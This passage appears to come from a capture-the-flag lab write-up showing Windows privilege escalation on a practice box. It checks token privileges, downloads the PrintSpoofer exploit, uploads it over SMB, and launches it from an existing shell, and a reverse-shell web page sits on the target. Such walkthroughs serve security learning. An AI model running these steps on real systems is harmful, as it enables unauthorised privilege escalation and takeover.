 ```text
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Interesting that we have SeImpersonatePrivilege. If you Google exploits for that you will find one called [PrintSpoofer](https://github.com/dievus/printspoofer), which is nice and simple to use.

Let's grab the exploit and upload via SMB:

```text
root@kali:/home/kali/thm/relevant# wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
--2021-03-01 22:36:38--  https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/dievus/printspoofer/master/PrintSpoofer.exe [following]
--2021-03-01 22:36:39--  https://raw.githubusercontent.com/dievus/printspoofer/master/PrintSpoofer.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 27136 (26K) [application/octet-stream]
Saving to: ‘PrintSpoofer.exe’
PrintSpoofer.exe                                           100%[=========================>]  26.50K  --.-KB/s    in 0.006s  
2021-03-01 22:36:39 (4.61 MB/s) - ‘PrintSpoofer.exe’ saved [27136/27136]

root@kali:/home/kali/thm/relevant# smbmap -u root -H 10.10.218.231 -r nt4wrksv --upload PrintSpoofer.exe nt4wrksv/PrintSpoofer.exe
[+] Starting upload: PrintSpoofer.exe (27136 bytes)
[+] Upload complete.
```

Now we just execute it from our existing shell on the server:

```text
c:\>cd \inetpub\wwwroot\nt4wrksv
c:\inetpub\wwwroot\nt4wrksv>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5
 Directory of c:\inetpub\wwwroot\nt4wrksv
03/01/2021  11:24 PM    <DIR>          .
03/01/2021  11:24 PM    <DIR>          ..
03/01/2021  11:24 AM                98 passwords.txt
03/01/2021  11:24 PM            27,136 PrintSpoofer.exe
03/01/2021  11:24 PM         1,010,424 revshell.aspx

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd.exe
PrintSpoofer.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
```
